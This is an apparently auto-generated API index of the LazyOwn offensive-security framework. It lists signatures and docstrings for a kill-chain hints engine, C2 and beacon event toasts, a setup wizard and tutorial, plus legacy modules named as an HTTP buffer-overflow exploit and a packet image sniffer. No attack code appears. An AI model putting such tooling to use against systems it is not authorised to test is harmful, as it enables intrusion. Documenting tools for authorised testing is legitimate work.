    cmd: The command name that just executed (e.g. ``lazynmap``).
    phase: Current engagement phase (e.g. ``recon``) from payload.json.
    hints_level: Overrides :attr:`TipsConfig.hints_level` for this
        render. ``off`` suppresses every surface; ``minimal`` keeps
        only the autosuggest accelerator; ``on`` renders everything.*
- `_maybe_auto_show_killchain` (line 272) `def _maybe_auto_show_killchain(self, phase)` - *Periodically re-surface the current phase without user prompt.

Shows the unified kill-chain bar after every ``killchain_auto_every``
commands and immediately whenever the active phase changes. Bounded
by the injected display callable so the engine stays UI-agnostic.

Args:
    phase: The resolved phase for the command that just executed.*
- `_resolve_theme` (line 300) `def _resolve_theme(self)` - *Return the active theme from payload.json with safe fallback.*
- `_flush_suggestions_panel` (line 311) `def _flush_suggestions_panel(self)` - *Wrap all collected suggestion lines into a Rich Panel.

When ``_pending_suggestions`` is empty the call is a no-op.
The panel uses the active theme's ``border`` color, adds vertical
padding, and is capped at 120 columns for readability on wide
terminals.

In ``minimal`` mode the suggestions are printed as plain text
without the panel wrapper for a lighter visual footprint.*
- `_get_hints_level` (line 344) `def _get_hints_level(self)` - *Return the engine's active hints level from its config.

The level is the single source of truth for ambient coaching: the
shell mirrors ``payload.json["ui_hints"]`` into
:attr:`TipsConfig.hints_level` before each render, so this method
never re-reads the payload and every surface agrees on one value.*
- `_resolve_phase` (line 355) `def _resolve_phase(self, cmd, fallback)` - *Resolve the current engagement phase with progressive degradation.

Priority: world_model.json > command_index lookup > past phases > fallback.
Never returns ``recon`` once the operator has advanced beyond it.*
- `_read_world_model_phase` (line 378) `def _read_world_model_phase(self)` - *Read the current phase from the unified killchain module.*
- `_read_os_id_from_session` (line 388) `def _read_os_id_from_session(self)` - *Read the detected OS identifier from sessions/os.json.

Returns:
    ``"1"`` for Linux, ``"2"`` for Windows, ``""`` if unknown.*
- `render_session_start` (line 408) `def render_session_start(self, phase, os_id)` - *Print a single tip at session start (once per boot).

Registry tips render as plain text so a trigger-authored message
containing markup brackets can never break the render pass; the
curated ``session_tips`` keep their rich markup.

Args:
    phase: Current engagement phase.
    os_id: Detected OS identifier (``"1"`` = Linux, ``"2"`` = Windows).
    **ctx: Additional context keys forwarded to tip triggers.*
- `get_state_snapshot` (line 440) `def get_state_snapshot(self)` - *Return a read-only snapshot of current engagement state.*
- `reset_session` (line 455) `def reset_session(self)` - *Reset session counters without clearing cross-session progress.*
- `heal_commands_seen` (line 460) `def heal_commands_seen(self, known)` - *Purge non-command entries from persisted ``commands_seen``.*
- `_render_kill_chain_hints` (line 475) `def _render_kill_chain_hints(self, cmd, phase)`
- `_load_payload` (line 492) `def _load_payload(self)` - *Read ``payload.json`` returning an empty mapping on any failure.

Returns:
    The parsed payload mapping, or ``{}`` when the file is missing or
    malformed. Never raises so callers stay non-blocking.*
- `_get_rec_engine` (line 505) `def _get_rec_engine(self)` - *Return the shared recommendation engine, building it once and caching.

The fused :class:`cli.recommendation.RecommendationEngine` is stateless
across calls, so it is constructed lazily on first use and reused for the
rest of the session — the graph, policy and recon backends are the
expensive part and must not be rebuilt after every command. A build
failure caches ``None`` so the evidence path degrades to the static
bare-name hints without retrying each step.

Returns:
    The engine instance, or ``None`` when construction failed.*
- `_compute_evidence_hints` (line 529) `def _compute_evidence_hints(self, cmd, phase)` - *Return evidence-backed hints for the next step, or an empty list.

Fuses every "what next" signal via the shared engine and enriches the
top results with their justification and confidence. Returns empty when
evidence hints are disabled, the engine is unavailable, or no signal
produces a proposal — in every such case the caller falls back to the
static bare-name hints so behaviour never regresses.

Args:
    cmd: The command that just executed (first token).
    phase: The resolved kill-chain phase.

Returns:
    A list of :class:`cli.reactive_hints.EvidenceHint`, at most
    ``config.hints_limit`` long.*
- `_collect_killchain_progress` (line 575) `def _collect_killchain_progress(self, current_phase)` - *Collect a compact kill-chain progress bar into pending suggestions.*
- `_maybe_show_full_killchain` (line 605) `def _maybe_show_full_killchain(self, cmd)` - *Show the full killchain progress bar after high-impact commands.*
- `_compute_command_hints` (line 616) `def _compute_command_hints(self, cmd, phase)`
- `_render_contextual_tip` (line 633) `def _render_contextual_tip(self, cmd, phase)`
- `_safe_tip_trigger` (line 672) `def _safe_tip_trigger(tip, ctx)`
- `_run_curiosity_reveal` (line 683) `def _run_curiosity_reveal(self, cmd, phase)`
- `_commands_in_exploration_phase` (line 707) `def _commands_in_exploration_phase(self, phase)`
- `_summary_for_exploration_cmd` (line 713) `def _summary_for_exploration_cmd(self, cmd)`
- `_refresh_autosuggest` (line 726) `def _refresh_autosuggest(self, cmd, phase)`
- `_render_autosuggest_hint` (line 750) `def _render_autosuggest_hint(self, engine)`
- `_update_engagement_state` (line 767) `def _update_engagement_state(self, cmd, phase)`
- `_award_elo` (line 808) `def _award_elo(self, cmd, first_time, new_phase, phase)`
- `_check_karma_up` (line 819) `def _check_karma_up(self)`
- `_print_separator` (line 836) `def _print_separator(self, width)` - *Print one dim horizontal separator line of ``width`` dashes.*
- `_check_badges` (line 840) `def _check_badges(self, cmd, first_time)`
- `_print_badge` (line 867) `def _print_badge(self, name, description)`
- `_fire_vri_reward` (line 877) `def _fire_vri_reward(self, ctx)`
- `_pick_weighted` (line 907) `def _pick_weighted(rewards, weights)` - *Pick one reward by weight, degrading to uniform when weights are void.

``random.choices`` rejects an all-zero weight vector, so a broken
reward table must never take the whole post-command hook down.

Args:
    rewards: The reward entries carrying at least an ``id`` key.
    weights: Weight per entry, same length as ``rewards``.

Returns:
    One reward entry.*
- `_ensure_state_and_index` (line 926) `def _ensure_state_and_index(self)`
- `_load_state` (line 932) `def _load_state(self)`
- `_save_state` (line 952) `def _save_state(self)`
- `_load_command_index` (line 977) `def _load_command_index(self)`
- `_is_recordable_command` (line 987) `def _is_recordable_command(self, cmd)`
- `_sanitize_seen` (line 991) `def _sanitize_seen(self, names, known)`
- `_read_run_commands` (line 1005) `def _read_run_commands(self)`
- `_read_recent_commands_for_autosuggest` (line 1010) `def _read_recent_commands_for_autosuggest(self, limit)`
- `_phase_for_cmd` (line 1028) `def _phase_for_cmd(self, cmd)`
- `_truncate` (line 1039) `def _truncate(value, max_len)`
- `_get_karma_name` (line 1045) `def _get_karma_name(elo)`
- `_next_threshold` (line 1051) `def _next_threshold(self, current)`
- `_sync_user_elo` (line 1055) `def _sync_user_elo(self, delta)`

#### `toast_bus.py`
**Path:** `cli/toast_bus.py`
**File Doc:** *Non-blocking toast notification subsystem for the LazyOwn shell.  After each command the postcmd hook calls :func:`render_toasts` which tails ``sessions/*.jsonl`` event files, deduplicates events the operator has already seen, and prints at most ``toast_max_per_tick`` formatted lines to stdout. Toasts surface daemon decisions, beacon callbacks, collab events, and reactive escalations without forcing the operator into ``poll_events`` or the SSE feed.  Design (SOLID):  - Single Responsibility: :class:`ToastConfig` owns constants, :class:`ToastState` persists the seen offsets, :class:`ToastReader` reads the JSONL files, :class:`ToastFormatter` renders a line, :class:`ToastBus` orchestrates. - Open/Closed: a new event source is one extra entry in :attr:`ToastConfig.event_files`. - Dependency Inversion: every collaborator is supplied to :class:`ToastBus` through the constructor so tests substitute fakes. - No magic numbers / hardcoded paths: every value lives in :class:`ToastConfig` and overrides flow through ``payload.json``.*

**Classes:**
- `ToastConfig` (line 43) `class ToastConfig` - *Centralised constants for the toast subsystem.*
- `ToastEvent` (line 110) `class ToastEvent` - *Immutable record produced by :class:`ToastReader`.*
- `ToastState` (line 121) `class ToastState` - *Persist the last byte offset consumed from each event file.

The state file lives under ``sessions/.toast_state.json``. The schema
is intentionally trivial: ``{"offsets": {"events.jsonl": 4096, ...}}``.
Atomic writes (tmp + rename) keep the file safe under SIGINT.*
- `ToastReader` (line 203) `class ToastReader` - *Read unseen JSONL events from a single file via byte offset.*
- `ToastFormatter` (line 330) `class ToastFormatter` - *Render a :class:`ToastEvent` as a :class:`rich.text.Text` line.*
- `ToastBus` (line 511) `class ToastBus` - *Lifecycle façade: collect → format → print.

The bus is the single class the cmd2 shell calls. Other code depends
only on :meth:`render` and :meth:`mark_all_seen`.*

**Functions:**
- `_is_truthy` (line 645) `def _is_truthy(value, config, default)`
- `_is_dumb_stream` (line 659) `def _is_dumb_stream(stream)` - *Return True when ANSI erase sequences must not be emitted.

Args:
    stream: Output stream behind the console.

Returns:
    True for pipes, dumb terminals, or ``NO_COLOR``.*
- `toasts_enabled` (line 679) `def toasts_enabled(payload, config)` - *Return ``True`` when toast rendering is permitted.*
- `_budget` (line 687) `def _budget(payload, config)`
- `build_default_bus` (line 702) `def build_default_bus(payload, sessions_dir, console)` - *Wire the canonical bus used by the shell postcmd hook.

Args:
    payload: Loaded ``payload.json``.
    sessions_dir: Optional override for the sessions root.
    console: Optional Rich console (tests inject a captured one).

Returns:
    A ready-to-use :class:`ToastBus` instance.*
- `render_toasts` (line 731) `def render_toasts(payload, sessions_dir, console, bus_factory)` - *One-shot helper used by the cmd2 postcmd hook.

Args:
    payload: Loaded ``payload.json``.
    sessions_dir: Optional override for the sessions root.
    console: Optional pre-built Rich console.
    bus_factory: Optional factory returning a pre-built
        :class:`ToastBus` (used by tests).

Returns:
    Number of toast lines printed; ``0`` when disabled or quiet.*
- `ephemeral_enabled` (line 755) `def ephemeral_enabled(payload, config)` - *Return True when toasts must auto-dismiss like sonner.

Args:
    payload: Loaded ``payload.json``.
    config: Optional active configuration.

Returns:
    Value of the ``toast_ephemeral`` payload flag.*
- `render_ephemeral_toasts` (line 771) `def render_ephemeral_toasts(payload, sessions_dir, console, duration, bus_factory)` - *Collect unseen events and print each as an auto-expiring line.

Same read cursor and theme as :func:`render_toasts`; only the
presentation differs: one sonner-style icon line per event instead of
the persistent ascii panel.

Args:
    payload: Loaded ``payload.json``.
    sessions_dir: Optional override for the sessions root.
    console: Optional pre-built Rich console.
    duration: Forced seconds per toast, or None for per-level defaults.
    bus_factory: Optional factory returning a pre-built
        :class:`ToastBus` (used by tests).

Returns:
    Number of toasts raised; ``0`` when disabled or quiet.*
- `emit_toast` (line 801) `def emit_toast(message, severity, event_type, sessions_dir, config)` - *Append one toast event so the existing render hook displays it.

The emitter lives beside the reader on purpose: the JSONL schema is
owned by this module, so writing an event anywhere else would let the
two sides drift. The cmd2 postcmd hook picks the line up on the next
command, or immediately via :func:`render_toasts`.

Args:
    message: Human-readable one-liner.
    severity: One of the keys in ``ToastConfig.severity_styles``.
    event_type: Short label rendered before the message.
    sessions_dir: Override for the sessions root.
    config: Optional active configuration.

Returns:
    True when the event was appended, False on any write failure.*
- `read_recent_toasts` (line 846) `def read_recent_toasts(sessions_dir, limit, config)` - *Return the most recent toast events without touching read offsets.

The dashboard is a read-only mirror. If it consumed events through
:meth:`ToastBus.collect` it would advance the shared
``sessions/.toast_state.json`` cursor and the cmd2 shell would never
show those events. Tailing the file keeps both surfaces independent.

Args:
    sessions_dir: Override for the sessions root.
    limit: Maximum number of events returned, newest last.
    config: Optional active configuration.

Returns:
    Up to ``limit`` events, oldest first. Empty when the file is
    missing or unreadable.*
- `build_toast_renderable` (line 890) `def build_toast_renderable(events, payload, width, config)` - *Render events with the active theme for any surface.

Args:
    events: Events to render.
    payload: Loaded payload used to resolve the theme.
    width: Panel width. ``0`` means auto.
    config: Optional active configuration.

Returns:
    A Rich renderable, or ``None`` when there is nothing to show.*

**Methods:**
- `__init__` (line 129) `def __init__(self, config, root)` - *Bind to config and resolve the on-disk state path.

Args:
    config: Active toast configuration.
    root: Optional override for the sessions root directory.*
- `path` (line 144) `def path(self)` - *Return the resolved state-file path.*
- `get` (line 148) `def get(self, name)` - *Return the persisted offset for ``name`` or 0.*
- `set` (line 153) `def set(self, name, offset)` - *Record ``offset`` for ``name`` in memory.*
- `reset` (line 159) `def reset(self)` - *Forget every persisted offset (force replay on next read).*
- `flush` (line 164) `def flush(self)` - *Persist the current offsets atomically.

Returns:
    ``True`` on success, ``False`` when the filesystem rejects the
    write (read-only mount, missing parent, etc.).*
- `_ensure_loaded` (line 182) `def _ensure_loaded(self)`
- `__init__` (line 206) `def __init__(self, config, root)` - *Bind to config and resolve the events root directory.

Args:
    config: Active configuration.
    root: Optional override for the sessions root directory.*
- `root` (line 217) `def root(self)` - *Return the resolved events root directory.*
- `read_unseen` (line 221) `def read_unseen(self, name, start_offset)` - *Return events emitted past ``start_offset`` plus the new end offset.

Args:
    name: Filename relative to the sessions root.
    start_offset: Last persisted byte offset for this file.

Returns:
    ``(events, end_offset)``. ``events`` is empty when the file is
    missing, truncated, or already consumed. ``end_offset`` matches
    the file size at the moment of read.*
- `_parse` (line 252) `def _parse(self, text, source, base_offset)`
- `_build_event` (line 267) `def _build_event(self, line, source, offset)`
- `_coerce_str` (line 290) `def _coerce_str(value)`
- `_summary` (line 298) `def _summary(record)`
- `__init__` (line 333) `def __init__(self, config, theme)` - *Bind to config and the active theme.*
- `format` (line 338) `def format(self, event)` - *Return a single themed line for ``event``.*
- `is_prominent` (line 350) `def is_prominent(self, event)` - *Return True when an event deserves a full toastr panel.

High-severity events and completion summaries are never squeezed
into a truncated line: they render with their complete text.*
- `format_prominent` (line 360) `def format_prominent(self, event)` - *Render an event as a toastr panel with the complete summary.*
- `format_ephemeral` (line 377) `def format_ephemeral(self, event)` - *Return a single sonner-style line with severity icon for ``event``.

Reuses the severity-to-role table and the active theme, so the
ephemeral line never drifts from the persistent panel palette.
LAZY renders ``toast.success / error / warning / info`` with one
glyph each; this is the terminal equivalent without the ascii box.

Args:
    event: Toast event to render.

Returns:
    One themed Rich Text line.*
- `duration_for` (line 405) `def duration_for(self, event)` - *Return the auto-dismiss delay in seconds for ``event``.

Reuses the per-severity duration table from the config, mirroring
the sonner ``duration`` option per toast level. ``0`` means sticky.

Args:
    event: Toast event to time.

Returns:
    Seconds before the line is erased, ``0`` for sticky.*
- `digest_line` (line 430) `def digest_line(dropped)` - *Summarise over-budget events so none vanish silently.*
- `format_many` (line 438) `def format_many(self, events, width)` - *Render several events as one Rich renderable.

This is the shared presentation contract. The cmd2 shell prints the
result through a Console; the Textual dashboard embeds the very same
renderable in a widget. One formatter, two surfaces, no drift.

Prominent events (high severity, completion summaries) render as
individual toastr panels with full text. Remaining lines share the
per-tick budget; over-budget ones collapse into a digest line so
no unseen notification disappears silently.

Args:
    events: Events to render, oldest first.
    width: Panel width. ``0`` means auto-clamp to the console width.

Returns:
    A ``Panel``/``Group`` for several items, a single ``Text``
    line for one plain event, or ``None`` when empty.*
- `_console_width` (line 492) `def _console_width(self)` - *Return a sane console width when the caller passes none.*
- `_role_for` (line 499) `def _role_for(self, severity)`
- `_truncate` (line 505) `def _truncate(self, value)`
- `__init__` (line 518) `def __init__(self, config, state, reader, formatter, console)` - *Bind every collaborator.*
- `collect` (line 533) `def collect(self)` - *Return every unseen event across :attr:`ToastConfig.event_files`.*
- `render` (line 545) `def render(self, enabled)` - *Collect, render and persist offsets in a single call.

When multiple toasts arrive in one tick they are wrapped in a
Rich Panel with the theme's ``warning`` border so the operator
can visually separate them from command output. A single toast
renders as a plain line to avoid unnecessary visual weight.

Args:
    enabled: When ``False`` the call is a no-op and returns 0.

Returns:
    The number of toast lines actually printed.*
- `mark_all_seen` (line 574) `def mark_all_seen(self)` - *Advance the offset for every configured file to its current size.*
- `render_ephemeral` (line 581) `def render_ephemeral(self, enabled, duration)` - *Collect unseen events and print each as an auto-expiring line.

This is the sonner port: one themed icon line per event that is
erased after its per-severity delay when the output is an
interactive TTY. On pipes or dumb terminals the lines stay printed
so logs never lose the event. Offsets persist exactly like
:meth:`render`, so both paths share the same read cursor.

Args:
    enabled: When ``False`` the call is a no-op and returns 0.
    duration: Forced seconds per toast, or None for per-level
        defaults from the config. ``0`` means sticky.

Returns:
    The number of toasts raised.*
- `_schedule_erase` (line 614) `def _schedule_erase(self, delay)` - *Erase the last printed line after ``delay`` on interactive TTYs.

Args:
    delay: Seconds before erasing. ``0`` or less means sticky.*
- `_erase_lines` (line 630) `def _erase_lines(stream, rows)` - *Move the cursor up and clear ``rows`` lines.

Args:
    stream: Output stream behind the console.
    rows: Terminal rows to erase.*

#### `tui_theme.py`
**Path:** `cli/tui_theme.py`
**File Doc:** *Operator-facing ``tui_theme`` command logic.  The cmd2 ``do_tui_theme`` method in ``lazyown.py`` delegates to :func:`run` here. Keeping the logic out of the shell makes it trivially testable: pass a payload dict, a payload-saver callable, and a sys.argv-style argument list, get back a human-readable result string and a side effect on the payload.  Usage from the shell:  tui_theme                    # list all themes, mark current tui_theme gruvbox            # switch active theme tui_theme cycle              # next theme in deterministic order tui_theme prev               # previous theme tui_theme reset              # fall back to default  The command is intentionally idempotent and never raises -- any invalid input is reported to the operator without mutating state.*

**Functions:**
- `_set_theme` (line 30) `def _set_theme(payload, name)` - *Persist ``name`` into ``payload["tui_theme"]`` after validation.

Args:
    payload: Mapping mutated in place. The ``tui_theme`` key is
        set to the canonical lowercase theme name.
    name: Requested theme name. Unknown names are silently
        coerced to :data:`cli.themes.DEFAULT_THEME_NAME` so
        ``tui_theme bogus`` cannot leave the operator without a
        usable theme.*
- `_format_listing` (line 45) `def _format_listing(current)` - *Render the theme table shown by ``tui_theme`` with no args.

Args:
    current: Name of the active theme. The matching row is
        flagged with a marker so the operator knows the state.

Returns:
    Multi-line text block ready to print.*
- `_cycle` (line 65) `def _cycle(payload, direction)` - *Advance the active theme by one slot in :data:`THEME_ORDER`.

Args:
    payload: Mapping mutated in place with the new theme name.
    direction: ``+1`` for next, ``-1`` for previous. Any other
        value is treated as ``+1``.

Returns:
    Single-line confirmation of the new active theme.*
- `run` (line 87) `def run(args, payload, save)` - *Execute the ``tui_theme`` command.

Args:
    args: Argument list (excluding the verb itself). Empty list
        lists themes; one positional argument switches or moves
        the active theme; ``reset`` clears back to default.
    payload: Live payload mapping. Mutated in place on theme
        changes; the operator's selection persists across shell
        restarts because :func:`save` writes the JSON.
    save: Callable invoked after every mutation so the on-disk
        ``payload.json`` matches the in-memory state. The shell
        binds this to the existing payload writer; tests pass a
        no-op recorder.

Returns:
    Human-readable result string. Always a single block of text
    suitable for direct printing.*

#### `tutorial.py`
**Path:** `cli/tutorial.py`
**File Doc:** *Interactive post-install tutorial for the LazyOwn framework.  Guides a new operator through the golden path: ping -> lazynmap -> auto_populate -> facts_show -> recommend_next  Each step explains what happens, shows the output, and suggests the next action.  Persists completion in ``sessions/tutorial_done`` so it does not repeat on subsequent launches.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - All output through ``rich.console.Console``. - ``run`` receives a ``params`` dict and a ``command_runner`` callable so tests can stub execution without touching the shell.*

**Classes:**
- `TutorialConfig` (line 76) `class TutorialConfig` - *Centralised constants for the tutorial.*

**Functions:**
- `is_done` (line 83) `def is_done(config)` - *Return True if the tutorial has already been completed.*
- `mark_done` (line 89) `def mark_done(config)` - *Persist the tutorial completion marker.*
- `render_header` (line 96) `def render_header()` - *Print the tutorial welcome banner.*
- `render_phase_table` (line 113) `def render_phase_table()` - *Print the full phase overview before starting.*
- `run_step` (line 128) `def run_step(index, command, description, why, params, command_runner)` - *Execute one tutorial step and return True if the user wants to continue.

Args:
    index: 1-based step number.
    command: The command verb to execute.
    description: One-line explanation of the command.
    why: Why this step matters.
    params: Live payload params dict.
    command_runner: Callable that executes a LazyOwn shell command and
        returns its output string.

Returns:
    True if the user pressed Enter to continue, False if they typed skip.*
- `run` (line 185) `def run(params, command_runner)` - *Run the interactive tutorial.

Args:
    params: Live params dict (in-memory mirror of payload.json).
    command_runner: Callable that executes a LazyOwn shell command string.
    force: When True, re-run even if already completed.
    config: Optional config override.

Returns:
    True if the tutorial completed, False if skipped or already done.*

#### `wizard.py`
**Path:** `cli/wizard.py`
**File Doc:** *Guided first-run setup wizard for the LazyOwn framework.  Walks the operator through the minimum viable configuration: rhost, lhost, domain, device, os_id, api_key, wordlist paths.  Auto-detects sensible defaults (lhost from routing table, device from ip route, SecLists paths on disk) so experts can just press Enter while novices get clear explanations of every value.  Design contract: - Zero imports from lazyown.py or lazyc2.py (Dependency Inversion). - The ``run`` function takes a ``params`` dict and a ``save`` callable; it never touches payload.json directly. - All output goes through rich so colours work on all terminals. - Ctrl-C at any prompt exits the wizard cleanly without saving partial state.*

**Classes:**
- `BinarySpec` (line 90) `class BinarySpec` - *Declarative description of an external tool the framework relies on.

The wizard verifies presence only — it never executes the binary so a
malicious shadow ``PATH`` entry cannot be triggered by the readiness
check itself.

Attributes:
    name: Executable name as it should appear on ``PATH``. Must
        satisfy :data:`_BINARY_NAME_RE` so logging is safe and the
        value cannot inject shell metacharacters.
    category: Human-readable group used to bucket the report
        (recon, web, smb, ad, exploit, c2).
    purpose: One-line description of why LazyOwn needs the tool.
    install_hint: Operator-facing install command shown when the
        binary is missing. Static string — never interpolated.*
- `BinaryStatus` (line 141) `class BinaryStatus` - *Result of a presence check for a single :class:`BinarySpec`.*
- `ReadinessItem` (line 150) `class ReadinessItem` - *One line in the readiness summary table.*
- `WizardResult` (line 160) `class WizardResult` - *Outcome returned by :func:`run`.*

**Functions:**
- `run` (line 169) `def run(params, save)` - *Run the interactive setup wizard and return a :class:`WizardResult`.

Args:
    params: Live params dict (in-memory mirror of payload.json).
    save: Callback to persist a single key/value pair.  Signature:
          ``save(key: str, value: Any) -> None``.  Called only for
          values the operator explicitly accepted.
    tutorial: When ``True`` each step prints the extended help from
        :data:`core.payload_schema.SCHEMA` so first-time operators
        understand *why* each value matters. Veterans omit this and
        just see the auto-detected defaults.

Returns:
    WizardResult with ``saved=True`` when at least one value was written.*
- `run_non_interactive` (line 234) `def run_non_interactive(params, save, values)` - *Apply configuration without prompts — Docker/CI/headless first runs.

Args:
    params: Live params dict (in-memory mirror of payload.json).
    save: Persistence callback, same contract as :func:`run`.
    values: Keys to apply (``rhost``, ``lhost``, ``domain``, ``device``,
        ``os_id``, ``api_key``). ``None`` values are ignored.
    auto_detect: When ``True`` (default), fill still-empty ``lhost`` /
        ``device`` from the routing table and wordlist paths from
        SecLists, mirroring the interactive wizard's detected defaults.

Returns:
    WizardResult with ``saved=True`` when at least one value was written.*
- `_rotate_default_secrets` (line 300) `def _rotate_default_secrets(params, save)` - *Replace factory-default C2 credentials with generated values.

The example payload ships ``CHANGE_ME`` placeholders; leaving them in
place means the C2 web console starts with publicly known credentials.
When the wizard runs, any ``c2_user``/``c2_pass`` still holding a
default marker is rotated: the user becomes ``admin`` and the password
a random URL-safe token. Weak but explicitly chosen values (``admin``,
``password``...) are warned about, never silently replaced.

Args:
    params: Live params dict, mutated in place on rotation.
    save: Persistence callback, same contract as :func:`run`.

Returns:
    List of ``(key, new_value)`` pairs that were rotated.*
- `_print_secret_rotation` (line 348) `def _print_secret_rotation(rotated)` - *Tell the operator which credentials were auto-rotated and why.*
- `_print_header` (line 364) `def _print_header()`
- `_print_glossary_panel` (line 379) `def _print_glossary_panel()` - *Print a short glossary so novices understand the recurring terms.*
- `_spec_long_help` (line 404) `def _spec_long_help(key)` - *Return the schema's long_help for ``key`` when it exists.*
- `_print_long_help` (line 412) `def _print_long_help(key)`
- `_collect_values` (line 419) `def _collect_values(params)`
- `_ask_rhost` (line 457) `def _ask_rhost(current)`
- `_ask_lhost` (line 484) `def _ask_lhost(current)`
- `_ask_domain` (line 515) `def _ask_domain(current)`
- `_ask_device` (line 537) `def _ask_device(current)`
- `_ask_os_id` (line 563) `def _ask_os_id(current)`
- `_normalize_provider_answer` (line 585) `def _normalize_provider_answer(raw)` - *Map a wizard answer to a backend id, or None when blank/invalid.

Args:
    raw: Raw operator input (provider name or menu number).

Returns:
    Backend identifier, or None when the input is blank or invalid.*
- `_mask_secret` (line 606) `def _mask_secret(value)` - *Mask a secret for display, keeping only the last four characters.

Args:
    value: Secret value or None.

Returns:
    Masked representation, or "not set" when empty.*
- `_ask_llm` (line 621) `def _ask_llm(params)` - *Run the provider-agnostic LLM setup step and return payload updates.

Args:
    params: Live params dict (in-memory mirror of payload.json).
    tutorial: Whether to show extended help.

Returns:
    Dict with llm_backend, the provider model slot, and the provider
    key slot when the operator changed them.*
- `_ask_wordlists` (line 692) `def _ask_wordlists(params)`
- `_ask_operator_login` (line 724) `def _ask_operator_login(params)` - *Prompt the operator to register or log in, then optionally configure marketplace.

Args:
    params: Live params dict.
    tutorial: Whether to show extended help.

Returns:
    Dict with cli_auto_login / cli_remember_token if saved.*
- `_wizard_login_flow` (line 786) `def _wizard_login_flow()` - *Handle the login path in the wizard.

Returns:
    Tuple of (username, password) or (None, None) on skip.*
- `_wizard_register_flow` (line 809) `def _wizard_register_flow()` - *Handle the register path in the wizard.

Returns:
    Tuple of (username, password) or (None, None) on skip or failure.*
- `_ask_marketplace_config` (line 852) `def _ask_marketplace_config()` - *Optionally launch the interactive marketplace configurator.*
- `_build_readiness` (line 875) `def _build_readiness(params)`
- `_print_readiness` (line 927) `def _print_readiness(items)`
- `check_binaries` (line 947) `def check_binaries(specs, which)` - *Return the presence status of every spec without executing it.

The check is intentionally side-effect free: it only resolves the
binary on ``PATH`` via ``shutil.which`` (or the caller-supplied
equivalent in tests) and never spawns the discovered process. That
keeps the readiness step deterministic and removes the risk that a
poisoned ``PATH`` entry could be triggered just by running ``wizard``.

Args:
    specs: Iterable of :class:`BinarySpec` definitions to verify.
        Defaults to :data:`_REQUIRED_BINARIES`.
    which: ``shutil.which``-compatible callable. Injected so unit
        tests can stub presence detection without touching the
        real ``PATH``.

Returns:
    A list of :class:`BinaryStatus` items in the same order as
    ``specs``. Binaries whose name fails :data:`_BINARY_NAME_RE`
    are skipped defensively — the module-level constants always
    match, but this guards against future contributions adding
    unsafe entries by mistake.*
- `_group_by_category` (line 988) `def _group_by_category(statuses)`
- `_print_binary_report` (line 997) `def _print_binary_report(statuses)`
- `_print_next_steps` (line 1035) `def _print_next_steps(params)`
- `_print_validation_summary` (line 1059) `def _print_validation_summary(params)` - *Render schema validation issues for the current payload.

Iterates the live params dict, asks the schema for each value, and
prints a table of problems. The wizard treats errors as blockers and
warnings as advisory. The returned list lets the caller decide
whether to short-circuit the post-wizard suggestions.

Args:
    params: Live params dict after wizard updates have been applied.

Returns:
    List of :class:`core.payload_schema.ValidationIssue`. Empty when
    every value satisfies the schema.*
- `_detect_lhost` (line 1098) `def _detect_lhost()`
- `_detect_device` (line 1120) `def _detect_device()`
- `_find_seclists_root` (line 1133) `def _find_seclists_root()`
- `_ping` (line 1141) `def _ping(ip)`
- `_prompt` (line 1154) `def _prompt(message)`
- `_ok` (line 1161) `def _ok(msg)`
- `_warn` (line 1165) `def _warn(msg)`
- `_info` (line 1169) `def _info(msg)`
- `_is_default` (line 322) `def _is_default(value)`
- `_is_weak` (line 325) `def _is_weak(value)`
- `_check` (line 878) `def _check(key, label, hint)`
- `_check_llm` (line 887) `def _check_llm()`

#### `wizard_scope.py`
**Path:** `cli/wizard_scope.py`
**File Doc:** *Partial wizard scope: show current state or edit selected fields only.  The full wizard walks eight steps linearly. Operators who only need to change rhost should not pass seven unrelated prompts. This module parses the scope flags and exposes the editable field registry so do_wizard can run a subset without duplicating prompt logic.*

**Classes:**
- `WizardScopeConfig` (line 17) `class WizardScopeConfig` - *Centralized knobs for partial wizard runs.*
- `WizardScope` (line 31) `class WizardScope` - *Parsed scope for one wizard invocation.*

**Functions:**
- `parse_scope` (line 38) `def parse_scope(tokens, config)` - *Parse --show and --only=a,b flags from wizard tokens.

Args:
    tokens: Tokenised wizard arguments.
    config: Flag spellings and separator.

Returns:
    WizardScope with show_only set and only holding validated field
    names in canonical order. Unknown names are dropped.*
- `status_rows` (line 64) `def status_rows(params)` - *Build display rows for the current configuration state.

Args:
    params: Live payload mapping.

Returns:
    List of (setting, value, status) with status ok or missing.*

#### `__init__.py`
**Path:** `contrib/legacy/__init__.py`
**File Doc:** *Legacy module shims — deprecated scripts retained for compatibility.  Scripts in this directory are no longer maintained or imported by the framework core. They may be invoked via ``run_script()`` paths (which should be updated to point here) or as standalone CLI tools.  New code must not add dependencies to modules in this directory.*

*No symbols extracted*

#### `lazy_http_bof.py`
**Path:** `contrib/legacy/lazy_http_bof.py`

**Functions:**
- `genHeader` (line 6) `def genHeader(raw)`
- `exploit` (line 29) `def exploit(target, port, payload)`

#### `lazy_packet_image_sniffer.py`
**Path:** `contrib/legacy/lazy_packet_image_sniffer.py`

**Functions:**
- `check_sudo` (line 23) `def check_sudo()`
- `list_interfaces` (line 31) `def list_interfaces()`
- `choose_interface` (line 49) `def choose_interface(interfaces)`
- `get_subnet_from_interface` (line 61) `def get_subnet_from_interface(interface)`
- `get_ip_addresses` (line 65) `def get_ip_addresses(interface)`
- `handle_packet` (line 111) `def handle_packet(packet)`
- `save_image` (line 161) `def save_image(src_ip, end_idx)`
- `run` (line 187) `def run()`
- `daemonize` (line 192) `def daemonize()`

#### `lazyaddon_creator.py`
**Path:** `contrib/legacy/lazyaddon_creator.py`
**File Doc:** *lazyaddon_creator.py ==================== Genera automáticamente un addon YAML de LazyOwn a partir de una URL de GitHub.  Uso: cd lazyaddons python3 ../modules/lazyaddon_creator.py https://github.com/user/repo  Requiere: - requests (pip install requests) - PyYAML - GROQ_API_KEY u Ollama corriendo (para el módulo llm_client)*

**Functions:**
- `parse_github_url` (line 49) `def parse_github_url(url)` - *Extrae (owner, repo) de una URL de GitHub.*
- `github_api_get` (line 58) `def github_api_get(owner, repo, endpoint)` - *GET a la API pública de GitHub (sin auth, rate-limit 60/hr).*
- `fetch_repo_metadata` (line 68) `def fetch_repo_metadata(owner, repo)` - *Devuelve metadata básica del repo.*
- `fetch_readme` (line 73) `def fetch_readme(owner, repo)` - *Descarga y decodifica el README.*
- `fetch_root_files` (line 85) `def fetch_root_files(owner, repo)` - *Lista nombres de archivos en el directorio raíz.*
- `build_llm_prompt` (line 98) `def build_llm_prompt(meta, readme, root_files)` - *Construye el prompt para el LLM.*
